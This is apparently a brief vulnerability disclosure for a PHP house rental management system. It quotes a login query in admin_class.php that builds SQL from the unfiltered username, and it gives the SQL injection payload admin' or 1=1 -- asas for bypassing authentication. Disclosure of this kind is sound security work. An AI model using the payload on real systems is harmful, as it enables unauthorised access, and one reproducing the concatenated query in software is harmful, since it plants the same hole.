 # Best house rental management system project in php - Universal password

The login logic in `admin_class.php`:

`$qry = $this->db->query("SELECT * FROM users where username = '".$username."' and password = '".md5($password)."' ");`

does not perform any filtering.

![](image/image_SdFSyEzb7r.png)

se `admin' or 1=1 -- asas` for the username and enter any password to log in.

![](image/image_1inr2ls0Bb.png)

![](image/image_CptycXF-dD.png)
